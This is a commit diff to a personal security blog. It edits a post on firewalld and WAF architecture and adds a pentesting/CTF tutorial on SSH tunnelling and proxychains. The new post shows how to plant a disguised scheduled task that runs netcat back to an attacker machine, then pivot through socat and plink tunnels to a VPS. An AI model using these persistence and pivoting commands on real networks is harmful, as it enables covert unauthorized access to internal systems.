

Before and after one commit to cyber-rosh/musings-bak, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
new post

````diff
--- a/_posts/2021-05-22-web-apps.md
+++ b/_posts/2021-05-22-web-apps.md
@@ -1,14 +1,14 @@
 ---
 layout: single
-title:  "Ideas on Scaling up security architecture for deploying web Apps"
+title:  "Ideas on Scaling up Security Architecture for Deploying Web Apps"
 ---
 
 
-One of our clients, a mid sized company, wanted to scale up the security architecture of their client facing website. As per the terms of reference, they wanted minimum disruption in their existing workflow. Having any kind of code review, penetration testing or code rewrite was not on the platter. Hmmm!!! we thought lets give it a shot. They have this typical architecture in which the website was hosted on Virtual Private Servers (VPS).
+Let us take a case of a mid sized company which wants to scale up its security architecture for the client facing website. As per the terms of reference, they want minimum disruption in their existing workflow and any kind of code rewrite is not on the platter. They have a classic deployment in which the website is hosted on Virtual Private Servers (VPS).
 
->The first step we thought was to minimise the attack surface of our infrastructure which includes the website itself and the hosted environment and then to stop any malicious requests trying to directly hit the APIs.
+>The first step is to minimize the attack surface by limiting access to the hosted infrastructure (VPS) for authorized traffic:ports *(TCP:443)*. Thereafter, we can limit access to web APIs and monitor the incoming traffic on the exposed public APIs.
 
-Now, having worked out the design goals, we went about reworking the architecture. Of course there are many ways to go about the security architecture, but one of the ways was to introduce the following artifacts.
+Now, having worked out the design goals, we can rework the architecture of our deployment. Of course there are many ways to go about the security architecture, but one of the ways was to enable/introduce the following artifacts.
 
 {{site.data.alerts.callout_default}}
  - Infrastructure Firewall
@@ -16,19 +16,21 @@ Now, having worked out the design goals, we went about reworking the architectur
  - Web Application Firewall
 {{site.data.alerts.end}}
 
-![Deployment Architecture of Application](../assets/images/2021-05-22-fig1.png){: .align-center }
+![Deployment Architecture of Application](../assets/images/2021-05-22-web-apps-fig-1.png){: .align-center }
 
 ## Infrastructure Firewall
 The infrastructure firewall will take care that all traffic except that meant for `http` and `https` is dropped at our Virtual Private Server (VPS). We can also configure the firewall in a way in which our proxy/load balancers are accessible from specific IPs/subnets. Some of the sample rules in our `firewalld` of CentOS7 as given here:
 
 Firewalld Rules
 ```bash
-# Create a trusted Zone having specific IP
+# Step 1: Create a trusted Zone having whitelisted IP / subnet.
 firewall-cmd --permanent --add-source=10.10.10.10 --zone=trusted &
-# Add service http and https to the trusted zone
+
+# Step 2: Add service http and https to the trusted zone
 firewall-cmd --permanent --add-service=http --zone=trusted &
 firewall-cmd --permanent --add-service=https --zone=trusted &
-# Remove service http and https from the public zone
+
+# Step 3: Remove service http and https from the public zone
 firewall-cmd --permanent --remove-service=http --zone=public &
 firewall-cmd --permanent --remove-service=https --zone=public &
 firewall-cmd --reload
--- /dev/null
+++ b/_posts/2021-06-07-ssh-tunnel.md
@@ -0,0 +1,91 @@
+---
+layout: single
+title:  "Understanding SSH Tunnelling and Proxychains"
+---
+
+Having a good knowledge on SSH tunnelling is an important tool in the arsenal for pentesting engagements and for playing networked Capture The Flag (CTF) events.
+
+# Problem Statement
+We have gained an initial foothold on one of the internal system of an organization. Now, we want to pivot to other systems and for this we require to run `nmap` scans on the internal networks. May be the organization is also running an internally hosted website which is not accessible from outside.How do we expose the internal ports/traffic to the outside attacker machine so that we can run our tools and gain access to resources which are not exposed to the outside world?
+
+# Setup
+The setup is given in figure below:
+
+![Deployment Architecture of Application](../assets/images/2021-06-07-ssh-tunnel-fig-1.png){: .align-center }
+For our penetration testing of the website we have been given a PC where we can setup the proxy. In penetration testing terms let's call it a `victim` PC.
+
+# Actions at Victim Machine
+## Step 1 (Optional):
+Let us assume,we have made an entry into the task scheduler of the victim machine. It will run the `netcat.exe` once it boots up and will connect with the listener running in the Kali machine.
+
+Let's make the task scheduler entry, to run the task once a day
+```
+# Make entry in task scheduler
+ SCHTASKS /CREATE /SC DAILY /TN "SystemTask\system Updates" /TR "c:\Users\Dell\AppData\Roaming\WinUpdate\netcat.exe" /ST 10:00
+```
+## Step 2:
+Once, we get the victim machine command prompt back to our Kali machine, we will start the `socate.exe`. This program will forward the traffic to its local port:
+```
+socate.exe TCP-LISTEN:8080,fork,reuseaddr TCP:<target-server-ip>:443
+```
+Once the traffic has been forwarded to a specific port, in our case `8080`, we can verify the same through `netstat` command:
+```
+# Now check if the port has been forwarded
+netstat -ano // check connection
+```
+## Step 3:
+We will redirect the traffic of the victim PC to the Virtual Private Server (VPS) through SSH tunnel, using `plink.exe` for windows.
+```
+# Connect with VPS
+plink.exe -l <username> -pw <password> -R 8080:127.0.0.1:8080 <vps ip>
+```
+
+# Actions at VPS Machine
+```
+# To check with curl
+/etc/hosts
+127.0.0.1 <domain-name>
+```
+# Forward Traffic to Kali Machine from VPS
+```
+# On Kali Machine
+ssh -g -L 8080:localhost:8080 -f -N <username>@<vps ip> // this use when want to open localhost
+```
+# Now open the browser and enter
+```
+http://<domain-name>:8080
+```
+
+# Configure SOCKS5 proxy
+## Actions at victim machine
+```
+plink.exe -l <username> -pw <password> -D 8080:127.0.0.1:8080 <vps ip>
+```
+## Actions at VPS
+### Install proxychains
+```
+$ yum install proxychains
+$ nano /etc/proxychain.conf
+socks5 <vps-public-ip> 8080
+```
+## Check on terminal
+```
+$ proxychains curl www.myweb.com
+```
+## On Kali Machine
+### Do settings in the browser, if we want to open websites in browser
+
+### In case you want to use terminal for traffic and not browser, perform following steps
+```
+$ yum install proxychains
+
+# nano /etc/proxychain.conf
+socks5 <vps-public-ip> 8080
+```
+## Check on terminal
+```
+$ proxychains curl www.myweb.com
+```
+
+#### Reference
+- https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d
````
Also changed, not shown: assets/images/2021-05-22-web-apps-fig-1.png (added), assets/images/2021-05-22-web-apps-fig-2.png (renamed from assets/images/2021-05-22-fig1.png), assets/images/2021-06-07-ssh-tunnel-fig-1.png (added), 14 other files.
